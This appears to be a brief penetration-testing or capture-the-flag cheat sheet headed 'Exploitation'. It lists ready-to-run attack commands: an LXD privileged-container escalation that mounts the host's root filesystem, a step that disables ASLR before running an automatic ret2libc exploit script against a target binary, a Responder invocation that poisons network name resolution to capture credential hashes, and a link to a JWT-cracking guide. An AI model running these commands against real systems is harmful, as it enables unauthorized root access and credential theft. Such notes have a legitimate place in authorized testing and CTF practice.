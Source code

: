 Exploitation
============

Run privesc container
```
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
lxc start privesc
```

Breaking JWT tokens:
 - [Guide](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)

Exploit binary (only when target has NX Disabled)
```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
python ./auto-ret2libc.py --stdin ../[[BINARY]]
```

Responder (listen on numerous protocols):
```
sudo responder --lm -v -I tun0
```